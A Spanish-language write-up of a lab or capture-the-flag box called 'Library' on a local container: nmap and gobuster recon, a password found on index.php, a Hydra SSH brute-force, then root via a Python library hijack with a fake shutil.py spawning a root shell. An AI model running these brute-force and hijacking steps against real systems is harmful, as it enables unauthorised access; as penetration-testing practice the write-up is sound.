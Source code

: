 # Library

![Image](https://github.com/user-attachments/assets/f5e187c3-6f6f-48c9-8a02-224ff9b958d2)

Empezamos con un nmap:

```bash
sudo nmap -p- --open -sS -sV -sC -min-rate 5000 -vvv -Pn -n 172.17.0.2 
```

```bash
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOE+AMUTmmJFie8NgXoV0LWMWmHQU2yXAMVJnPC/JPzRYOstWvVS+YjLNy2mNK2aKFi/ubqYfwGq5IkKZgXTUEA=
|   256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKaYjuffpq2p5LshURmRdGCPjM1gO/+OI5UZ4l37IkRF
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```
Vemos que tenemos el puerto 80 (HTTP) y el 22 (SSH) abierto. Vamos a mirar que hay en el puerto 80.

---

![Image](https://github.com/user-attachments/assets/ee5ce09b-67c5-4049-8b2e-9354c19fa0a1)


Vemos la pagina de apache por defecto, vamos hacer fuzzing y ver que nos podemos encontrar.

Hacemos uso de gobuster:
```bash
gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak,html 
```

![Image](https://github.com/user-attachments/assets/91bb619e-8085-4041-bacc-7ba8079dcba4)



Vemos que *index.php* nos da algo interesante (una contraseña):

![Image](https://github.com/user-attachments/assets/f856a2e0-a119-4ff6-85a8-737e9acc86ad)


## Ataque de fuerza | Hydra | Diccionario usuarios

Ponemos el siguiente comando:

```bash
hydra ssh://172.17.0.2 -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD -t 4 
```



Y nos da el resultado:

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-22 14:04:13
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8295455 login tries (l:8295455/p:1), ~2073864 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
[STATUS] 84.00 tries/min, 84 tries in 00:01h, 8295371 to do in 1645:55h, 4 active
[STATUS] 82.67 tries/min, 248 tries in 00:03h, 8295207 to do in 1672:26h, 4 active
```

Listo, ahora sabemos que se llama carlos. Vamos a conectarnos por ssh.

---

nos conectamos con el siguiente comando:


```bash
ssh carlos@172.17.0.2 
```

Y listo, estamos conectados como el usuario carlos, ahora vamos hacer la escalada de privilegios.

---

Verificamos que binarios se pueden ejecutar con permisos de otros usuarios con:

```bash 
sudo -l 
```

```bash
Matching Defaults entries for carlos on 11379fc37632:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on 11379fc37632:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Aquí podemos ver que podemos ejecutar con cualquier usuario y sin contraseña el binario **Python3** para el fichero **script.py**.

Vemos en /opt lo que tiene dentro el script.py


```bash
import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)
```


### Python Library Hijacking

Creamos un modulo de python con el mismo nombre de la librería que importa el modulo **script.py**.
de la siguiente manera:

nombre en nano: shutil.py


```bash
import os

os.system("sudo /bin/bash")
```


Dentro del modulo que creamos, ejecutamos una **bash** como el usuario **root**.

Esto lo que hace es que al ejecutarlo lo primero que lee el sistema es en el **shutil.py** pensando que es la librería del *script.py* 

---

Ejecutamos como **root**, el binario **python3** para el modulo **script.py**

```bash
carlos@11379fc37632:/opt$ sudo /usr/bin/python3 /opt/script.py
```

y listo, somos root:

![Image](https://github.com/user-attachments/assets/497029d1-1279-4db4-a8d1-70df9d1bc063)

---
